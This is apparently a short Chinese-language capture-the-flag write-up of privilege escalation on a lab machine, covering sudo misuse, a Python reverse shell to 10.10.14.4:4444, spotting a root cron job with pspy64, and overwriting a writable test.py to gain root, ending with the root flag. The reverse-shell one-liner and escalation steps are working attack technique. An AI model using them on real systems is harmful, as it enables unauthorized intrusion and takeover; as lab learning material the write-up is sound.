

# Based提權

sudo -l: 發現我可以用另一個使用者執行指令而且不用密碼。

用了sudo -u scriptmanager /bin/bash，但沒辦法橫向移動是因為這個本質上是網頁，

沒辦法處理像 `sudo` 這種需要維持「對話狀態」的指令

還是得開監聽。

reverseshell就能做橫向移動了。

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((”10.10.14.4",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")’

接著開始找一些有用的資訊，因為是網頁的方式，所以去var/www/html看看，config.php裡面可能會有甚麼。

結果是填email的php程式。

有個php的目錄裡面，但它是sendmail.php，看起來也不是。

回到根目錄看到有個目錄和這個使用者名稱很像的叫scripts，進去後發現裡面有兩個奇怪的檔案。

分別列印出來，從test.py看發現好像是個排程的程式。

進一步驗證test.py是排程的方法，ls -la /etc/cron.*(把排程相關的檔案列出來)，但看不到，就去問AI，他給出的原因是這台機器的作者故意讓我看不到。

我就用了pspy64，再kali機開http server，目標機到tmp，用wget接著賦予權限，執行。

驗證了確實這個檔案是排程，而且每分鐘的01秒會由root權限去執行test.py。

看一下這兩個檔案的權限，發現test.py是我們可以改寫的。

將shell的程式寫進test.py，以此觸發這個檔案來做提權。

成功提權。

root_flag: 0e8c13f35df9706035e1b8b08778f5f6